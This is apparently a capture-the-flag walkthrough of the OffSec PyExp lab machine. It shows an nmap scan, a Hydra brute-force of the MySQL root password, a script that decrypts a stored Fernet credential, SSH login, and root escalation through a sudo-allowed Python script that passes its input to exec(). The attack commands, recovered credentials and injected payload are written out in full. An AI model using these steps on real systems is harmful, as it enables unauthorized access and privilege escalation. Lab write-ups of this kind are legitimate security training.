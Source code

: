 ```yaml
---
layout: post
title:  "Exhost Writeup"
date:   2022-07-16 08:11:30 +0530
---
```


# Walkthrough of Exhost

Hello everyone, in this post I'm sharing `offsec` play grounds `warm-up` machine called `PyExp`. Which teachs about  wordlist attacks, hash cracking and privilege escalation with some  

## Nmap

First thing first that we have to find out opened ports of this target. So, I ran a full port scan against target ip here.

`nmap -sC -sV -p- <target-ip>`


here `-p-` indicates that i'm running a full port scan against this. Also `-sV` for service versions and `-sC` for default script. you can find more information using this command `man nmap`. After few minitues I got my result.

```
Nmap scan report for 192.168.97.118
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 41
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, FoundRows, ODBCClient, ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, InteractiveClient, Support41Auth, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Rp\[43B3vy})Q>!+Q7^U
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

Scan shows that it has only few ports open `ssh` and `mysql`.

## Attack

Now we can do a wordlist attack to extract `root` credentials of mysql service.So, we can use different toolslike `hydra`, `medusa`. Here I'm going to use Hydra to attack the mysql service.


I used `rockyou.txt` to attck. If you haven't the password list `rockyou.txt`. Here is the link to [download](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

After the download you can simply run this command.

`hydra -l root -P /path/to/wordlist/rockyou.txt <target-ip> mysql`

Here `-l` for username, `-P` for mention the wordlist you are going to use.

```
[DATA] attacking mysql://192.168.219.118:3306/
[3306][mysql] host: 192.168.219.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-16 10:34:00
```

After the attack we can ge the credentials `root:prettywoman`. Using these credentials we can connect to mysql host and can do some further enumeration...

Using this command we can connect.

`mysql -u root -h <target-ip> -p`

Give the password `prettywoman` correctly and login to the mysql. 

```
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7860
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

yeaaaaaaaahhhhhhh! We logged in. Now we can see that there are few databases

paste following commands on mysql session.

```
show dtabases;
use data;
show tables;
select * from fernet;
```
`cred:gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`

`key:UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=`



after the last command we can get a fernet encrypted string and the key. So, to decrypt it I wrote very simple `python script`.

```
#!/usr/bin/python3
from cryptography.fernet import Fernet
key = b"UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0="

f = Fernet(key)
cred = b"gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys="
  
# decrypting the ciphertext
m = f.decrypt(cred)
print(m)
```

We got username and password from the decryption.

```
Username:lucy
Password:wJ9`"Lemdv9[FEw-
```

Now we can ssh into the target.

`ssh lucy@<target-ip> -p 1337 `

Here mention the port 1337 because in this host ssh port is 1337.

## Privilege escalation

```
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

`sudo -l` gives us a valuable info here that we can execute a script with root permissions. So, let's see what the script is.


```
uinput = raw_input('how are you?')
exec(uinput)
```
It is executing what I'm write there. So, that is vulnerable to run commands with root privileges.

For an example
```
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?__import__('os').system('id');
uid=0(root) gid=0(root) groups=0(root)
```

## Time to be root

```
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?__import__('os').system('/bin/bash');
root@pyexp:/home/lucy# 
root@pyexp:/home/lucy# 
root@pyexp:/home/lucy# id
```

Enjoy the flags Yourself!